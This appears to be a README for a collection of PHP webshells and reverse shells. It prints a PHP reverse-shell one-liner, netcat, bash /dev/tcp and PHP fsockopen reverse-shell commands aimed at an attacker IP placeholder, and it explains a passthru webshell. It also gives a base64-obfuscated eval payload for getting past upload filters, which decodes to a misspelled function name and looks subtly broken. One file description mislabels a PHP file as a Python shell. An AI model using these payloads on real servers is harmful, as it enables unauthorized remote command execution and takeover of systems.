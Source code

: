 <h3 align='center'><b>One-liner php reverse shell</b></h3>
 <pre><code>&lt;?php exec("/bin/bash -c 'bash -i >/dev/tcp/&lt;IP>/&lt;PORT> 0>&1'"); ?></code></pre>
<h3 align='center'><b> rev_shell.php </b></h3>
 <p>A simple python reverse shell
<h3 align='center'><b> shell_with_curl.php </b></h3> 
 <p>A simple webshell check by curl command to that file in victim url directory
<h3 align='center'><b> shell_with_param.php </b></h3> 
 <p>A simple webshell works by taking a parameter and executing it as a system command.
<h3 align='center'><b> webshell.php </b></h3>
 <p> In pseudocode, the above snippet is doing the following:
  <ol>
    <li> Checking if the parameter "commandString" is set
    <li> If it is, then the variable $command_string gets what was passed into the input field
    <li> The program then goes into a try block to execute the function passthru($command_string).  The docs on passthru() on <a href='https://www.php.net/manual/en/function.passthru.php'> PHP's website </a>, but in general, it is executing what gets entered into the input then passing the output directly back to the browser.
    <li>If the try does not succeed, output the error to page.  Generally this won't output anything because you can't output stderr but PHP doesn't let you have a try without a catch.

<h3 align='center'><b> Reverse shell command </b></h3> 
   <pre><code>nc -e /bin/bash &lt;ATTACKER_IP> &lt;ATTACKER_PORT></code></pre>
   <pre><code>bash -i >& /dev/tcp/&lt;ATTACKER_IP>/&lt;ATTACKER_PORT> 0>&1</code></pre>
   <pre><code>php -r '$sock=fsockopen("&lt;ATTACKER_IP>",&lt;ATTACKER_PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'</code></pre>

<h3>Probably can bypass filters while upload, for example.</h3>
 <pre><code>&lt;?=eval(base64_decode('ZWNobyBzaGVsbF91eGVjKCRfR0VUWydjbWQnXS4nIDI+JjEnKTs='));?></code></pre>
